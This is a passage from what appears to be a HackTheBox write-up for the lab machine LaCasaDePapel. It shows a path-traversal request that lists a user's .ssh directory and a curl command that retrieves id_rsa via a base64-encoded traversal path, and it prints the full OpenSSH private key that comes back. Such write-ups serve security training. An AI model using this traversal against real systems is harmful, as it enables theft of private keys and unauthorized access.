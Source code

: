 Let’s combine everything together, since we are probably user berlin (as we are in his home dir), let’s see his .ssh dir

```bash
https://10.10.10.131/?path=../.ssh
```

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%2015.png)

We should not use burp here as it crashes the box. Let’s just use curl:

```bash
curl -k https://10.10.10.131/file/$(echo -n "../.ssh/id_rsa" | base64)

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

```
